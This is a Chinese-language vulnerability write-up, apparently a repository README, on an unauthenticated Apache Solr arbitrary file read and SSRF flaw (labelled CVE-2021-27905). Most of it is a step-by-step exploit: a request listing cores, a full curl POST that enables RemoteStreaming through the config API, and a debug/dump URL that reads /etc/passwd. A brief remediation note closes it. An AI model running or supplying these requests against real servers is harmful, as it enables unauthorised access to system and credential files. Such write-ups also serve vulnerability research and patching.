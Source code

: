 ### 一 漏洞描述
solr任意文件读取(CVE-2021-27905)

在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

Apache Solr <= 8.8.1

### 二 漏洞利用
step1:  
http://{目标IP}:{目标端口}/solr/admin/cores?indexInfo=false&wt=json
获取 core
![img.png](img.png)

step2:  
通过修改数据库的配置来开启RemoteStreaming：修改其中的 {目标IP} {目标端口} {core}，发送请求
```angular2html
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://{目标IP}:{目标端口}/solr/{core}/config'
```

step3：
读取信息  
`http://{目标IP}:{目标端口}/solr/{core}/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd`
![img_1.png](img_1.png)


### 三 漏洞修复
1 关闭ConfigAPI：在bin目录下的solr.in.cmd中加入一行set SOLR_OPTS=%SOLR_OPTS% -Ddisable.configEdit=true；然后关闭远程读取文件流，默认不开启
2 增加访问控制口令
